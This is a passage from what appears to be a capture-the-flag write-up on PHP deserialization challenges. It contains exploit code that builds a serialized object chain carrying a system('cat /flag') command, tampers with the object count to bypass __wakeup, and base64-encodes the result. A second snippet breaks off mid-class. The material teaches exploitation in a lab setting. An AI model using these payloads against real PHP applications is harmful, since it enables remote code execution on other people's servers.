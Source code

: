 ```php

class User
{
    public $username;
    public function __construct($username)
    {
        $this->username = $username;
    }
}

class Show
{
    public $show;
    public function __construct($show)
    {
        $this->show = $show;
    }
}


$zhangsan = new ZhangSan('system("cat /flag");');
$user = new User($zhangsan);
$show = new Show($user);
$tmp = serialize($show);
// 正则替换
$tmp = preg_replace('/"Show":1/','"Show":2',$tmp);
echo base64_encode($tmp);
```

### 反序列化-PHP-005
> php引用赋值&
```php
<?php

class ZhangSan
{
    public $name;
    public function __construct($name)
    {
        $this->name = $name;
    }
}

class User
{
    public $username;
    public function __construct($username)
    {
        $this->username = $username;
    }
}

class Show
{
    public $show;
    public $key;
    public $wakeup;
    public function __construct($show)
    {
        $this->key = &$this->wakeup;
        $this->show = $show;
        
    }
```